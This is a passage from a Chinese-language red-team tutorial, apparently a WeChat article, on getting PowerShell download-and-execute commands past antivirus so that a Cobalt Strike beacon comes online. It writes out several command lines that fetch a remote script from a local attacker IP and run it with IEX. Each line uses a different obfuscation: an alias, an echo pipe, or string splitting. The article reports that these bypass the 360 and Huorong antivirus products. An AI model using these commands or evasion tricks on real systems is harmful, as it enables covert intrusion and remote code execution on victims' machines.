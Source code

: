 这个下面的绕过思路会细谈。

### 04. Powershell 命令混淆绕过 AV 上线：

我们直接 cs 生成

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxaX0npb1sMQv5k5O0HM3gGUEBpUPVrlCFqicJia7Ex1G5MgqsSm7EPtKg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxjRP3KAARKicMkgDQd9FUY8rqia96HBWKFtzMawjiacRuBibjic9BMERHzzQ/640?wx_fmt=png)

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.52.23:80/a'))"

```

这条命令主要做了哪些事？

利用 downloadstri 远程读取 powershell 文件并 iex 执行, 即 http://192.168.52.23:80/a 下的文件。

iex => Invoke-expression  将字符串当作 powershell 代码执行

我们直接在目标机运行发现被拦截：

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxdZMLexx8icTVFMIL9B9XNm2noqEW7qmeqk7Ql9RfzTkiavAMRxTiaJgsA/640?wx_fmt=png)

那我我们可以根据 powershell 语言的特性进行混淆，例如字符串转换、变量转换、编码、压缩等等来绕过 AV 达到上线  

1.  为 iex 设置别名
    

```
powershell set-alias -name cseroad -value Invoke-Expression;cseroad(New-Object Net.WebClient).DownloadString('http://192.168.52.23:80/a')

```

目标机器无拦截，绕过 360 与火绒成功上线

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxYI355C0WJxvmx1qluC5vKP6soFHPPe4r5icYZu5saXpgNM0uWvVEfPg/640?wx_fmt=png)

2. 远程下载并通过 IEX 运行脚本, 这里我们采用 echo 方式

```
echo Invoke-Expression(new-object net.webclient).downloadstring('http://192.168.52.23:80/a') | powershell -

```

目标机器无拦截，绕过 360 与火绒成功上线

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfx20lJET9U3ACWLfbp4eeiaibpmtosHP58hWowHPL0NwW89TOFMN0icEoCg/640?wx_fmt=png)

3. 利用'+'拼接 http 达到上线 (典型的 powershell 语法特性，以变量的方式来拆分 HTTP）

```
powershell  -c "IEX(New-Object Net.WebClient)."DownloadString"('ht‘+’tp://192.168.52.23:80/a')"

```
